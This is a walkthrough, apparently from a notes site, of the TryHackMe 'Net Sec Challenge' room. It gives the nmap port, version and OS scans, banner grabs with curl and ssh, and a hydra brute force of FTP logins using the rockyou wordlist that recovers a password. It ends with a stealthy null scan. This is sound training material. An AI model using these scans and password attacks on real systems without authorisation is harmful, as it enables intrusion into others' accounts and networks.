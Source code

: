 # Net Sec Challenge

**Room Link:** [https://tryhackme.com/room/netsecchallenge](https://tryhackme.com/room/netsecchallenge)



**What is the highest port number being open less than 10,000?**

```
nmap -sV -sT -O -p 1-10000 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

**There is an open port outside the common 1000 ports; it is above 10,000. What is it?**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**How many TCP ports are open?**

6

**What is the flag hidden in the HTTP server header?**

```
curl http://$VICTIM -I
```

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

**What is the flag hidden in the SSH server header?**

```
ssh -v $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

**We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

```
vsftpd 3.0.3
```

\
**We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?**

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://$VICTIM:10021
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
ftp $VICTIM  10021
Name (10.10.129.189:root): quinn
Password: andrea
ftp> get ftp_flag.txt
```

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

**Browsing to `http://10.10.129.189:8080` displays a small challenge that will give you a flag once you solve it. What is the flag?**

```
nmap -sN $VICTIM
```
